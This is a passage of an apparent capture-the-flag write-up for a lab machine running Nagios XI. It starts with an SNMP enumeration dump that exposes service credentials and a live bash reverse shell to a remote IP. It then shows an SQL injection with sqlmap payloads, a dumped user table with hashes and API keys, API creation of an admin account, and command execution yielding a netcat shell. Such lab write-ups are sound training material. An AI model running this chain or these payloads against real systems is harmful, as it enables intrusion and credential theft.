765                 snmptrapd_5.9+dfsg-4+deb11u1_amd64
766                 snmptt_1.4.2-1_all  
767                 sntp_1:4.2.8p15+dfsg-1_amd64
768                 socat_1.7.4.1-3_amd64
769                 ssh_1:8.4p1-5+deb11u3_all
770                 sshpass_1.09-1+b1_amd64
771                 ssl-cert_1.1.0+nmu1_all
772                 subversion_1.14.1-3+deb11u1_amd64
773                 sudo_1.9.5p2-3+deb11u1_amd64
774                 sysstat_12.5.2-2_amd64
775                 systemd_247.3-7+deb11u4_amd64
776                 systemd-sysv_247.3-7+deb11u4_amd64
777                 systemd-timesyncd_247.3-7+deb11u4_amd64
778                 sysvinit-utils_2.96-7+deb11u1_amd64
779                 tar_1.34+dfsg-1_amd64
780                 task-english_3.68+deb11u1_all
781                 task-laptop_3.68+deb11u1_all
782                 task-ssh-server_3.68+deb11u1_all
783                 task-web-server_3.68+deb11u1_all
784                 tasksel_3.68+deb11u1_all
785                 tasksel-data_3.68+deb11u1_all
786                 telnet_0.17-42_amd64
787                 tftp_0.17-23_amd64  
788                 traceroute_1:2.1.0-2+deb11u1_amd64
789                 tzdata_2021a-1+deb11u11_all
790                 ucf_3.0043_all      
791                 udev_247.3-7+deb11u4_amd64
792                 unzip_6.0-26+deb11u1_amd64
793                 update-inetd_4.51_all
794                 usbutils_1:013-3_amd64
795                 util-linux_2.36.1-8+deb11u1_amd64
796                 util-linux-locales_2.36.1-8+deb11u1_all
797                 uuid-dev_2.36.1-8+deb11u1_amd64
798                 uuid-runtime_2.36.1-8+deb11u1_amd64
799                 vim-common_2:8.2.2434-3+deb11u1_all
800                 vim-tiny_2:8.2.2434-3+deb11u1_amd64
801                 wamerican_2019.10.06-1_all
802                 wget_1.21-1+deb11u1_amd64
803                 whiptail_0.52.21-4+b3_amd64
804                 whois_5.5.10_amd64  
805                 wireless-regdb_2022.04.08-2~deb11u1_all
806                 wireless-tools_30~pre9-13.1_amd64
807                 wkhtmltox_1:0.12.6.1-2.bullseye_amd64
808                 wpasupplicant_2:2.9.0-21_amd64
809                 x11-common_1:7.7+22_all
810                 x11proto-dev_2020.1-1_all
811                 xauth_1:1.1-1_amd64 
812                 xdg-user-dirs_0.17-2_amd64
813                 xfonts-75dpi_1:1.0.4+nmu1.1_all
814                 xfonts-base_1:1.0.5_all
815                 xfonts-encodings_1:1.0.4-2.1_all
816                 xfonts-utils_1:7.7+6_amd64
817                 xinetd_1:2.3.15.3-1+b1_amd64
818                 xkb-data_2.29-2_all 
819                 xorg-sgml-doctools_1:1.11-1.1_all
820                 xtrans-dev_1.4.0-1_all
821                 xxd_2:8.2.2434-3+deb11u1_amd64
822                 xz-utils_5.2.5-2.1~deb11u1_amd64
823                 zerofree_1.1.1-1_amd64
824                 zip_3.0-12_amd64    
825                 zlib1g_1:1.2.11.dfsg-2+deb11u2_amd64
826                 zlib1g-dev_1:1.2.11.dfsg-2+deb11u2_amd64

[*] Processes:

Id                  Status              Name                Path                Parameters          
1                   runnable            systemd             /sbin/init                              
2                   runnable            kthreadd                                                    
3                   unknown             rcu_gp                                                      
4                   unknown             rcu_par_gp                                                  
6                   unknown             kworker/0:0H-events_highpri                                        
8                   unknown             mm_percpu_wq                                                
9                   runnable            rcu_tasks_rude_                                             
10                  runnable            rcu_tasks_trace                                             
11                  runnable            ksoftirqd/0                                                 
12                  unknown             rcu_sched                                                   
13                  runnable            migration/0                                                 
15                  runnable            cpuhp/0                                                     
16                  runnable            cpuhp/1                                                     
17                  runnable            migration/1                                                 
18                  runnable            ksoftirqd/1                                                 
20                  unknown             kworker/1:0H-events_highpri                                        
23                  runnable            kdevtmpfs                                                   
24                  unknown             netns                                                       
25                  runnable            kauditd                                                     
26                  runnable            khungtaskd                                                  
27                  runnable            oom_reaper                                                  
28                  unknown             writeback                                                   
29                  runnable            kcompactd0                                                  
30                  runnable            ksmd                                                        
31                  runnable            khugepaged                                                  
49                  unknown             kintegrityd                                                 
50                  unknown             kblockd                                                     
51                  unknown             blkcg_punt_bio                                              
52                  unknown             edac-poller                                                 
53                  unknown             devfreq_wq                                                  
54                  unknown             kworker/0:1H-kblockd                                        
56                  runnable            kswapd0                                                     
57                  unknown             kthrotld                                                    
58                  runnable            irq/24-pciehp                                               
59                  runnable            irq/25-pciehp                                               
60                  runnable            irq/26-pciehp                                               
61                  runnable            irq/27-pciehp                                               
62                  runnable            irq/28-pciehp                                               
63                  runnable            irq/29-pciehp                                               
64                  runnable            irq/30-pciehp                                               
65                  runnable            irq/31-pciehp                                               
66                  runnable            irq/32-pciehp                                               
67                  runnable            irq/33-pciehp                                               
68                  runnable            irq/34-pciehp                                               
69                  runnable            irq/35-pciehp                                               
70                  runnable            irq/36-pciehp                                               
71                  runnable            irq/37-pciehp                                               
72                  runnable            irq/38-pciehp                                               
73                  runnable            irq/39-pciehp                                               
74                  runnable            irq/40-pciehp                                               
75                  runnable            irq/41-pciehp                                               
76                  runnable            irq/42-pciehp                                               
77                  runnable            irq/43-pciehp                                               
78                  runnable            irq/44-pciehp                                               
79                  runnable            irq/45-pciehp                                               
80                  runnable            irq/46-pciehp                                               
81                  runnable            irq/47-pciehp                                               
82                  runnable            irq/48-pciehp                                               
83                  runnable            irq/49-pciehp                                               
84                  runnable            irq/50-pciehp                                               
85                  runnable            irq/51-pciehp                                               
86                  runnable            irq/52-pciehp                                               
87                  runnable            irq/53-pciehp                                               
88                  runnable            irq/54-pciehp                                               
89                  runnable            irq/55-pciehp                                               
90                  unknown             acpi_thermal_pm                                             
91                  unknown             kworker/1:1H-kblockd                                        
92                  unknown             ipv6_addrconf                                               
101                 unknown             kstrp                                                       
104                 unknown             zswap-shrink                                                
105                 unknown             kworker/u5:0                                                
148                 unknown             ata_sff                                                     
149                 runnable            scsi_eh_0                                                   
150                 runnable            scsi_eh_1                                                   
151                 unknown             scsi_tmf_1                                                  
152                 unknown             scsi_tmf_0                                                  
153                 runnable            scsi_eh_2                                                   
154                 unknown             scsi_tmf_2                                                  
155                 runnable            scsi_eh_3                                                   
157                 runnable            scsi_eh_4                                                   
158                 unknown             mpt_poll_0                                                  
159                 unknown             scsi_tmf_3                                                  
160                 unknown             scsi_tmf_4                                                  
161                 unknown             mpt/0                                                       
162                 runnable            scsi_eh_5                                                   
165                 unknown             scsi_tmf_5                                                  
166                 runnable            scsi_eh_6                                                   
167                 unknown             scsi_tmf_6                                                  
168                 runnable            scsi_eh_7                                                   
169                 unknown             scsi_tmf_7                                                  
170                 runnable            scsi_eh_8                                                   
171                 unknown             scsi_tmf_8                                                  
172                 runnable            scsi_eh_9                                                   
173                 unknown             scsi_tmf_9                                                  
174                 runnable            scsi_eh_10                                                  
175                 unknown             scsi_tmf_10                                                 
176                 runnable            scsi_eh_11                                                  
177                 unknown             scsi_tmf_11                                                 
178                 runnable            scsi_eh_12                                                  
179                 unknown             scsi_tmf_12                                                 
180                 runnable            scsi_eh_13                                                  
181                 unknown             scsi_tmf_13                                                 
182                 runnable            scsi_eh_14                                                  
183                 unknown             scsi_tmf_14                                                 
184                 runnable            scsi_eh_15                                                  
185                 unknown             scsi_tmf_15                                                 
186                 runnable            scsi_eh_16                                                  
187                 unknown             scsi_tmf_16                                                 
188                 runnable            scsi_eh_17                                                  
189                 unknown             scsi_tmf_17                                                 
190                 runnable            scsi_eh_18                                                  
191                 unknown             scsi_tmf_18                                                 
192                 runnable            scsi_eh_19                                                  
193                 unknown             scsi_tmf_19                                                 
194                 runnable            scsi_eh_20                                                  
195                 unknown             scsi_tmf_20                                                 
196                 runnable            scsi_eh_21                                                  
197                 unknown             scsi_tmf_21                                                 
198                 runnable            scsi_eh_22                                                  
199                 unknown             scsi_tmf_22                                                 
200                 runnable            scsi_eh_23                                                  
201                 unknown             scsi_tmf_23                                                 
202                 runnable            scsi_eh_24                                                  
203                 unknown             scsi_tmf_24                                                 
204                 runnable            scsi_eh_25                                                  
205                 unknown             scsi_tmf_25                                                 
206                 runnable            scsi_eh_26                                                  
207                 unknown             scsi_tmf_26                                                 
208                 runnable            scsi_eh_27                                                  
209                 unknown             scsi_tmf_27                                                 
210                 runnable            scsi_eh_28                                                  
211                 unknown             scsi_tmf_28                                                 
212                 runnable            scsi_eh_29                                                  
213                 unknown             scsi_tmf_29                                                 
214                 runnable            scsi_eh_30                                                  
215                 unknown             scsi_tmf_30                                                 
216                 runnable            scsi_eh_31                                                  
217                 unknown             scsi_tmf_31                                                 
248                 runnable            scsi_eh_32                                                  
249                 unknown             scsi_tmf_32                                                 
285                 runnable            jbd2/sda1-8                                                 
286                 unknown             ext4-rsv-conver                                             
325                 runnable            systemd-journal     /lib/systemd/systemd-journald                    
346                 runnable            systemd-udevd       /lib/systemd/systemd-udevd                    
396                 unknown             cryptd                                                      
404                 runnable            irq/16-vmwgfx                                               
405                 unknown             ttm_swap                                                    
407                 runnable            card0-crtc0                                                 
408                 runnable            card0-crtc1                                                 
413                 runnable            VGAuthService       /usr/bin/VGAuthService                    
414                 runnable            vmtoolsd            /usr/bin/vmtoolsd                       
415                 runnable            card0-crtc2                                                 
418                 runnable            card0-crtc3                                                 
419                 runnable            card0-crtc4                                                 
420                 runnable            card0-crtc5                                                 
421                 runnable            card0-crtc6                                                 
422                 runnable            card0-crtc7                                                 
441                 runnable            auditd              /sbin/auditd                            
446                 runnable            laurel              /usr/local/sbin/laurel--config /etc/laurel/config.toml
504                 runnable            hwmon1                                                      
510                 runnable            audit_prune_tre                                             
570                 runnable            cron                /usr/sbin/cron      -f                  
571                 runnable            dbus-daemon         /usr/bin/dbus-daemon--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
575                 runnable            rsyslogd            /usr/sbin/rsyslogd  -n -iNONE           
577                 runnable            systemd-logind      /lib/systemd/systemd-logind                    
578                 runnable            wpa_supplicant      /sbin/wpa_supplicant-u -s -O /run/wpa_supplicant
596                 runnable            cron                /usr/sbin/CRON      -f                  
615                 runnable            dhclient            /sbin/dhclient      -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0
627                 runnable            sh                  /bin/sh             -c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
685                 runnable            avahi-autoipd       avahi-autoipd: [eth0] sleeping                    
686                 runnable            avahi-autoipd       avahi-autoipd: [eth0] callout dispatcher                    
736                 runnable            snmptrapd           /usr/sbin/snmptrapd -LOw -f -p /run/snmptrapd.pid
759                 running             snmpd               /usr/sbin/snmpd     -LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid
766                 runnable            ntpd                /usr/sbin/ntpd      -p /var/run/ntpd.pid -g -u 108:116
771                 runnable            sshd                sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups                    
776                 runnable            agetty              /sbin/agetty        -o -p -- \u --noclear tty1 linux
803                 runnable            apache2             /usr/sbin/apache2   -k start            
809                 runnable            shellinaboxd        /usr/bin/shellinaboxd-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit
810                 runnable            slapd               /usr/sbin/slapd     -h ldap:/// ldapi:/// -g openldap -u openldap -F /etc/ldap/slapd.d
812                 runnable            shellinaboxd        /usr/bin/shellinaboxd-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit
836                 runnable            postgres            /usr/lib/postgresql/13/bin/postgres-D /var/lib/postgresql/13/main -c config_file=/etc/postgresql/13/main/postgresql.conf
855                 runnable            postgres            postgres: 13/main: checkpointer                    
856                 runnable            postgres            postgres: 13/main: background writer                    
857                 runnable            postgres            postgres: 13/main: walwriter                    
858                 runnable            postgres            postgres: 13/main: autovacuum launcher                    
859                 runnable            postgres            postgres: 13/main: stats collector                    
860                 runnable            postgres            postgres: 13/main: logical replication launcher                    
913                 runnable            mariadbd            /usr/sbin/mariadbd                      
915                 runnable            snmptt              /usr/bin/perl       /usr/sbin/snmptt --daemon
916                 runnable            snmptt              /usr/bin/perl       /usr/sbin/snmptt --daemon
921                 runnable            xinetd              /usr/sbin/xinetd    -pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6
1379                runnable            sudo                sudo                -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
1380                runnable            bash                /bin/bash           -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
1394                runnable            exim4               /usr/sbin/exim4     -bd -q30m           
84936               runnable            nagios              /usr/local/nagios/bin/nagios-d /usr/local/nagios/etc/nagios.cfg
84940               runnable            nagios              /usr/local/nagios/bin/nagios--worker /usr/local/nagios/var/rw/nagios.qh
84941               runnable            nagios              /usr/local/nagios/bin/nagios--worker /usr/local/nagios/var/rw/nagios.qh
84942               runnable            nagios              /usr/local/nagios/bin/nagios--worker /usr/local/nagios/var/rw/nagios.qh
84943               runnable            nagios              /usr/local/nagios/bin/nagios--worker /usr/local/nagios/var/rw/nagios.qh
85056               runnable            nagios              /usr/local/nagios/bin/nagios-d /usr/local/nagios/etc/nagios.cfg
85068               runnable            cron                /usr/sbin/CRON      -f                  
85069               runnable            sh                  /bin/sh             -c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1
85070               runnable            php                 /usr/bin/php        -q /usr/local/nagiosxi/cron/cmdsubsys.php
85071               runnable            sh                  sh                  -c bash -c 'bash -i >& /dev/tcp/10.10.16.3/9001 0>&1'
85072               runnable            bash                bash                -c bash -i >& /dev/tcp/10.10.16.3/9001 0>&1
85073               runnable            bash                bash                -i                  
85097               runnable            python3             python3             -c import pty;pty.spawn("/bin/bash")
85098               runnable            bash                /bin/bash                               
93922               runnable            gpg-agent           gpg-agent           --homedir /home/nagios/.gnupg --use-standard-socket --daemon
101762              runnable            npcd                /bin/bash           /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
101763              runnable            bash                bash                -i                  
142018              unknown             kworker/0:3-events                                          
154795              unknown             kworker/u4:0-flush-8:0                                        
158302              unknown             kworker/u4:3-ext4-rsv-conversion                                        
159057              unknown             kworker/1:0-events                                          
159374              runnable            apache2             /usr/sbin/apache2   -k start            
159663              runnable            apache2             /usr/sbin/apache2   -k start            
159681              runnable            apache2             /usr/sbin/apache2   -k start            
159752              runnable            apache2             /usr/sbin/apache2   -k start            
160414              unknown             kworker/u4:1-flush-8:0                                        
161199              unknown             kworker/1:2-events                                          
162278              runnable            apache2             /usr/sbin/apache2   -k start            
162626              runnable            apache2             /usr/sbin/apache2   -k start            
162629              runnable            apache2             /usr/sbin/apache2   -k start            
162779              runnable            apache2             /usr/sbin/apache2   -k start            
162786              runnable            apache2             /usr/sbin/apache2   -k start            
162788              runnable            apache2             /usr/sbin/apache2   -k start            
162860              unknown             kworker/0:0-events                                          
163467              runnable            cron                /usr/sbin/CRON      -f                  
163468              runnable            sh                  /bin/sh             -c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1
163470              runnable            php                 /usr/bin/php        -q /usr/local/nagiosxi/cron/cmdsubsys.php
163481              runnable            sleep               sleep               60
```

From here we can find a svc account that is used by the NagiosXI to check for scripts, but that account of course doesn't work for SSH login, neither for nagios login.

OBS: here I had check for tips and apparetly the login to Nagios Xi and Nagios Core are 2 different beasts. Dirsearch found out the /nagios/ directory that points towards "Nagios Core":


Where the Xi redirects your towards:


Using the creds from SNMP into the last one doesn't work but using them on the first one results in a successfull login:



* * *

## Road to USER.txt

Now that we are into Nagios I guess we need to find a way to get a RCE via Nagios itself but here I was wrong apparely the CVE that I found out was the way to go but we are missing the right PHPSESSID cookie. And since the credentials are only working in Nagios core and not Nagios XI we need to find a way to get that damn cookie so I checked for tips and apparenly there is a guide that used the api to gain the cookie via a simple POST curl request!

https://support.nagios.com/forum/viewtopic.php?f=16&t=58783

If this is true we should be able to gain:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/ApacheDirectoryStudio]
└─# curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=3600' 
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "c89c23172abf95e2c82b33f3bf10a2b27196d7ff",
    "valid_min": 3600,
    "valid_until": "Wed, 17 Jan 2024 20:51:51 -0500"
}
```

Nice that cookie now should be replaced in our request as described in the previous CVE(*When a user acknowledges a banner, a POST request is sent to \`/nagiosxi/admin/banner\_message-ajaxhelper.php\` with the POST data consisting of the intended action and message ID – \`action=acknowledge banner message&id=3\`*.) where the ID is not sanitized and can lead to a SQL Injection.

The request can be saved as:

```
POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1
Host: nagios.monitored.htb
Cookie: nagiosxi=c89c23172abf95e2c82b33f3bf10a2b27196d7ff
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120", "Brave";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-Gpc: 1
Accept-Language: en-US,en;q=0.6
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Dnt: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

action=acknowledge+banner+message&id=*
```

After infinite tests I had to check back for tips and apparently for some reason it have to be used as HTTP GET request and not post, plus the token have to be shipped as well!

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/ApacheDirectoryStudio]
└─# sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   236  100   184  100    52    771    218 --:--:-- --:--:-- --:--:--   991
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:01:57 /2024-01-15/

[16:01:57] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=064u6fd7rfg...pm896temhk'). Do you want to use those [Y/n] Y
[16:01:58] [INFO] testing if the target URL content is stable
[16:01:58] [INFO] target URL content is stable
[16:01:58] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[16:01:58] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[16:01:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
```

But this is not dumping the tables, could be caused by SQL rights on the DB backend? So guessing that the DB could be names just "nagiosxi" we can dump all the tables:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/ApacheDirectoryStudio]
└─# sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'`" --batch --level 5 --risk 3 -p id -D nagiosxi --tables
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   236  100   184  100    52    737    208 --:--:-- --:--:-- --:--:--   947
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:05:10 /2024-01-15/

[16:05:11] [INFO] resuming back-end DBMS 'mysql' 
[16:05:11] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=qb81h0hks8i...ire07j0tgm'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (8252=8252) THEN 3 ELSE (SELECT 8593 UNION SELECT 1961) END))&token=4b6407cd3fc8e7c52e3ab0703beb30412693aad0

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 3574 FROM(SELECT COUNT(*),CONCAT(0x716a766a71,(SELECT (ELT(3574=3574,1))),0x716a6a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&token=4b6407cd3fc8e7c52e3ab0703beb30412693aad0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=acknowledge_banner_message&id=3 AND (SELECT 7659 FROM (SELECT(SLEEP(5)))mZxw)&token=4b6407cd3fc8e7c52e3ab0703beb30412693aad0
---
[16:05:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:05:11] [INFO] fetching tables for database: 'nagiosxi'
[16:05:11] [INFO] retrieved: 'xi_deploy_agents'
[16:05:11] [INFO] retrieved: 'xi_sysstat'
[16:05:12] [INFO] retrieved: 'xi_events'
[16:05:12] [INFO] retrieved: 'xi_mibs'
[16:05:12] [INFO] retrieved: 'xi_cmp_favorites'
[16:05:12] [INFO] retrieved: 'xi_sessions'
[16:05:12] [INFO] retrieved: 'xi_cmp_scheduledreports_log'
[16:05:12] [INFO] retrieved: 'xi_usermeta'
[16:05:13] [INFO] retrieved: 'xi_meta'
[16:05:13] [INFO] retrieved: 'xi_options'
[16:05:13] [INFO] retrieved: 'xi_cmp_nagiosbpi_backups'
[16:05:13] [INFO] retrieved: 'xi_deploy_jobs'
[16:05:13] [INFO] retrieved: 'xi_eventqueue'
[16:05:13] [INFO] retrieved: 'xi_cmp_ccm_backups'
[16:05:14] [INFO] retrieved: 'xi_auditlog'
[16:05:14] [INFO] retrieved: 'xi_banner_messages'
[16:05:14] [INFO] retrieved: 'xi_users'
[16:05:14] [INFO] retrieved: 'xi_auth_tokens'
[16:05:14] [INFO] retrieved: 'xi_cmp_trapdata'
[16:05:14] [INFO] retrieved: 'xi_link_users_messages'
[16:05:15] [INFO] retrieved: 'xi_cmp_trapdata_log'
[16:05:15] [INFO] retrieved: 'xi_commands'
Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+

[16:05:15] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/nagios.monitored.htb'

[*] ending @ 16:05:15 /2024-01-15/
```

That xi\_users table seems interesting:

```
atabase: nagiosxi
Table: xi_users
[3 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 1705321642   | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 3              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705324578   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 9              | 1699697433           |
| 6       | admin111@localhost  | Admin111             | qaftus2KrmRhFX0cb7Ih0JIYq9KIOe3mrNNXXSKqPC2IEZarN5I74e762b0sSOZb | 1       | $2a$10$52f6c50efdf6bfe7d9fc3etft/kDYUgTEs2KI9MheDPQGnn1IRPrG | admin111    | 0          | 1705255758 | 0           | 0           | 0            | 0            | ZmbCc7pXLuC8QQALMOdg4jZD86NTETuqPBd8ZqLoeGE22VkFscMRf7HoKPbhRc2A | 0              | 0              | 1705254733           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

And we can see that the admin is enabled:


Now again since these creds will be used for the API endpoint we can just login to Nagios we need to use API endpoint to create a new administrator and then we can login into machine!

https://support.nagios.com/forum/viewtopic.php?t=49647

Again with the nagiosadmin API token we should be able to craft a new username! We can start by checking our username:  
  

```
┌──(root㉿kali)-[/home/millycash/Downloads/Monitored]
└─# curl -X POST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1' -d 'username=yovecio&password=yovecio&email=yovecio@test.htb&name=Yovecio&auth_level=admin'
{
    "success": "User account yovecio was added successfully!",
    "user_id": 7
}
```

And with this we are in!


Now the last step is to get a RCE via new command and to do so we need to add a new type of command and we do it into CCM(Core configuration manager) where we can add the command types that will show into Nagios Core:

**Configuration --> CCM --> Commands --> Add new command**


And apply configuration to save and activate the command to deploy. 

Now we need to go to Monitor --> Host and run the command from Common Settings --> Check command:



And on button click we should be able to gain our first RCE!

```
┌──(root㉿kali)-[/home/millycash/Downloads/Monitored]
└─# nc -lvnp 5555                        
listening on [any] 5555 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.248] 50838
bash: cannot set terminal process group (178432): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$ pwd
pwd
/home/nagios
nagios@monitored:~$
```

And like that we have our first flag!

```
nagios@monitored:~$ ls -al
ls -al
total 28
drwxr-xr-x 5 nagios nagios 4096 Jan 15 00:04 .
drwxr-xr-x 4 root   root   4096 Nov  9 10:38 ..
lrwxrwxrwx 1 root   root      9 Nov 11 10:57 .bash_history -> /dev/null
-rw-r--r-- 1 nagios nagios  131 Jan 15 00:04 cookie.txt
drwx------ 3 nagios nagios 4096 Jan 14 13:30 .gnupg
drwxr-xr-x 3 nagios nagios 4096 Nov 10 14:25 .local
drwx------ 2 nagios nagios 4096 Dec  7 03:18 .ssh
-rw-r----- 1 root   nagios   33 Jan 13 14:01 user.txt
nagios@monitored:~$ cat cookie.txt
cat cookie.txt
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

nagios@monitored:~$ cat user.txt
cat user.txt
77bf26591a5103ce85ecaf562ae55f57
nagios@monitored:~$ ls -al
ls -al
```

* * *

## Road to ROOT.txt

I will start by uploading Linpeas for enumeration and post only the interesting ones:  

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 5.10.0-27-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.205-2 (2023-12-31)
User & Groups: uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
Hostname: monitored
Writable folder: /dev/shm
[+] /usr/bin/fping is available for network discovery (linpeas can discover hosts, learn more with -h)
